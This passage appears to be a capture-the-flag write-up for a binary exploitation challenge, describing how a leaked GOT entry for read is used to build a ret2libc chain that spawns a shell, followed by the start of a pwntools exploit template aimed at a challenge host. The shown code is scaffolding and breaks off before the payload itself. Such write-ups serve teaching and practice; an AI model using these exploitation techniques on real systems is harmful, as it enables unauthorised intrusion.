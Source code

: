 `fcn.00400560` is a PLT entry that seems to be pointing at `read`, since it uses 0 (stdin file
descriptor) as its first argument, with a buffer and size as the other 2 arguments.
Thus, we can infer that 0x601018 is the GOT entry for `read`.

### Ret2libc

Using the offset, `pop rdi; ret;` gadget, and leaking function, we can construct a standard
ret2libc payload.

We start by leaking the GOT entry for `read` and calculating the libc address.
Here the libc was given, though we could have easily found the correct version by leaking
multiple function addresses from the GOT and comparing their offsets in a libc database.

Once we have the address of libc, we can call `system("/bin/sh")` and spawn a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 35.246.134.224 --port 30764
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
libc = ELF('libc-2.23.so')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '35.246.134.224'
port = int(args.PORT or 30764)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
```
